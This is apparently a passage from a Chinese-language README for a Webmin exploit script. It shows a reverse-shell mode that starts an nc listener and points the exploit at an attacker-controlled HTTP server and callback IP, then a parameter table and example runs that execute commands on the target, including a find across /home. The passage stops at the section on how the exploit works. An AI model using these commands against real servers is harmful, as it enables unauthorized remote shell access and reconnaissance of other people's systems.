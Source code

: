 
### 反向Shell模式

```bash
# 1. 启动监听器
nc -nlvp 9999

# 2. 执行漏洞利用
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 -L attacker_ip -P 9999
```

## 📝 参数说明

| 参数 | 说明 | 必需 | 示例 |
|------|------|------|------|
| `-t, --target` | 目标Webmin URL | ✅ | `http://192.168.1.100:10000/` |
| `-c, --credential` | 登录凭据 | ✅ | `admin:password` |
| `-LS, --py3http_server` | HTTP服务器地址 | ✅ | `192.168.1.50:8080` |
| `--shell` | 要执行的命令 | ❌ | `"ls -la"` |
| `-L, --callback_ip` | 反向Shell回连IP | ❌* | `192.168.1.50` |
| `-P, --callback_port` | 反向Shell回连端口 | ❌* | `9999` |

*注：反向Shell模式下必需

## 🎯 使用示例

### 示例1：系统信息收集
```bash
python3 exploit.py -t http://192.168.1.100:10000/ -c root:password -LS 192.168.1.50:8080 --shell "whoami && id && pwd"
```

### 示例2：文件系统探索
```bash
python3 exploit.py -t http://192.168.1.100:10000/ -c root:password -LS 192.168.1.50:8080 --shell "find /home -name '*.txt' 2>/dev/null"
```

### 示例3：网络配置查看
```bash
python3 exploit.py -t http://192.168.1.100:10000/ -c root:password -LS 192.168.1.50:8080 --shell "ip addr show && route -n"
```

## 🔧 工作原理
